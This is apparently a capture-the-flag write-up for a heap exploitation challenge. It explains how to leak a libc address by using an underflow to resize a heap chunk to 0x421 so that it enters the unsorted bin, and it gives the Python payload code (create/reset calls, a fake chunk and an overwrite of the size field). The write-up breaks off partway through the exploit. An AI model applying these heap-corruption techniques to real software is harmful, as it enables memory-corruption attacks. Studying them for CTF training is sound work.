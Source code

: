 As usual the firs think we have to do is to leak the libc. This proves to be a
bit of a challenge since we can only work with one chunk at a time(at index
0). So there are 2 things we need to do in order to get the leak from the
heap.

Put some libc addresses on the heap and then read them.

first 3 chunks that we put on the heap are for later use ignore them for now.

```  
create(0,0x10,b'aAA') <--- chunk D  
create(0,0x40, b'VVV') <--- chunk E

create(0,0x90,"FFFFFF") <--- chunk F  
```

## unsorted bin

Usually how we get libc addresses on heap is by using unsorted bins. The idea
is to malloc a large enough chunk(>0x408) that when freed it ends up in the
unsorted bin. At that point libc addresses are put in its fw and bk pointers.
The problem we are facing is that when a big chunk like that is freed and
there are no other chunks between it and the top chunk it will get
consolidated and our plan won't work.

So the way I deal with this is to malloc enough chunks so that their combined
size is greater than 0x408 and then using the underflow change the first
chunk's size to 0x421 and then free it. by doing that there will be at least
one chunk between our fake chunk that I resized and the top chunk so it will
not get consolidated.

```  
create(0,0x60,0x20*b'A') <----- chunk A. We will resize this one to 0x421  
create(0,0x200,0x20*b'B') <---- chunk B. This one we will use to perform the
underflow

create(0,0x70,0x70*b'C')  
reset(0)  
create(0,0x70,0x70*b'C')  
reset(0)  
create(0,0x70,0x70*b'G')  
reset(0)  
payload= b'R'*16  
payload += p64(0x420)  
payload += p64(0x61)  
payload += p64(0)  
payload += p64(0)  
create(0,0x70,payload) <------- chunk C. Inside this one we create a fake
chunk to pass the chek for freeing into unsorted bin

reset(0)  
payload = b'B' * 0x7e <------ payload to overflow char  
payload += b"\x00" * 10 <-------- some padding so the next line lands on the
size of chunk A  
payload += p64(0x421) <----- this will overwrite the size of chunk A to 0x421
using the underflow  
create(0,0x200,payload) <---- chunk B that is returned from tcache  
```
